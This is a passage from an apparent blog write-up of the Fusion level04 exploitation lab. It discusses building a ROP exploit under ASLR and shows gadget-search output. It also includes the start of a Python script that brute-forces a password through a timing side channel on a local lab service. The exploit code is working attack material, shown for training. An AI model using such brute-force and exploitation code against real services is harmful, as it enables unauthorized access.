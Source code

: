 Nice! We now know the offset where the binary is loaded so we need to weaponize our exploit

My first idea was to use the same technique used in level03: modify GOT entry and then use ret2plt. The problem is that there are no enough gadgets in the binary to modify the GOT reference. Actually, the number of gadgets in our binary is a little depressing :(

```lang-bash line-numbers 
ROPeMe> generate /opt/fusion/bin/level04
Generating gadgets for /opt/fusion/bin/level04 with backward depth=3
It may take few minutes depends on the depth and file size...
Processing code block 1/1
Generated 86 gadgets
```

Next idea is to use gadgets from **libc** but since the server is using ASLR, we need to somehow leak the libc base address with the help of our recently leaked binary load address or brute force it. I will be using the later as I did for [level02](http://www.pwntester.com/blog/2013/12/30/fusion-level02-write-up/)

Note: For the brute force, leaking the binary load address was not required but I tried not to use libc :(

Ok, the whole exploit reusing the ROP chain built for [level02](http://www.pwntester.com/blog/2013/12/30/fusion-level02-write-up/) looks like:

```lang-bash line-numbers 
#!/usr/bin/python

from socket import *
from struct import *
import base64
import time
import string

def try_password(password):
	credentials = base64.b64encode("stack6:{0}".format(password))
	s = socket(AF_INET, SOCK_STREAM)
	s.connect(("localhost", 20004))
	request = "GET / HTTP/1.0\r\n"
	request += "Authorization: Basic {0}\r\n".format(credentials)
	request += "\n"
	begin = time.time()
	s.send(request)
	response = s.recv(1024)
	end = time.time()
	s.close()
	return (end-begin, response)

def bruteforce():
	password = ""
	count = 3
	i = 0
	while i<16:
		candidate = ""
		others = 10000000
		response = ""
		for char in string.ascii_letters+string.digits:
			(time, response) = try_password(password + char)
			#print("trying {0}, reponse in {1}".format(char, time))
			if "Unauthorized" not in response:
				print("[+] Eureka " + password + char)
				return password + char
			else:
				if time < others:
					candidate = char
					others = time
		password += candidate
```